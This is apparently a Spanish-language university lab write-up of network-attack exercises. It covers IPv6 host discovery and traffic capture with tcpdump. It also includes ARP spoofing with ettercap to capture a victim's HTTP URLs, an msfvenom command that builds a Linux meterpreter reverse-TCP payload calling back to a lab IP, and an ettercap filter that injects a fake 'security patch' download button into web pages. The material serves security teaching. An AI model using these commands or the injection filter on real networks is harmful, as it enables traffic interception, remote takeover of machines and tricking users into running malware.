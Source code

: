 ## Apartado D

Obtenga la relación de las direcciones IPv6 de su segmento.

*root@debian:/home/lsi# ping6 -c2 -I ens33 ff02::1 ???*

```bash
root@debian:/home/lsi$ ping -6 -I ens33 ff02::1 

root@debian:/home/lsi$ atk6-alive6 ens33
root@debian:/home/lsi$ ip -6 neigh
```

# Apartado E. Probar y meter datos wireshark

Obtenga el tráfico de entrada y salida legítimo de su interface de red `ens33` e investigue los servicios, conexiones y protocolos involucrados.
```bash
root@debian:/home/lsi$ tcpdump -w /home/lsi/Documentos/tcpdump/snifens33.pcap -i ens33
```

## Apartado F

Mediante arpspoofing entre una máquina objeto (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima.

```bash
root@debian:/home/lsi$ ettercap -i ens33 -P remote_browser -Tq -M arp:remote /10.11.48.70// /10.11.48.1//
```

## Apartado G

Instale metasploit. Haga un ejecutable que incluya Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute.

1. Creamos el payload:

```bash
root@debian:/home/lsi$ msfvenom -l payloads | grep "linux/x64"
root@debian:/home/lsi$ msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=10.11.48.69 lport=2222 -f elf -o meta.exe
```
2. Se crea un html.filter

```html
if (ip.proto == TCP && tcp.dst == 80) {
 if (search(DATA.data, "Accept-Encoding")) {
 replace("Accept-Encoding", "Accept-Nothing!");
 }
}

if (ip.proto == TCP && tcp.src == 80) {
 if (search(DATA.data, "<title>")) {
 replace("</title>", "</title><img src="alert.gif"><h1> Hemos detectado un problema de seguridad!</h1><form method="get" action="http://10.11.48.69/meta.exe"><button type="submit"> Click
aquí para descargar los últimos parches de seguridad"</button></form>");
 msg("html injected");
 }
}
```
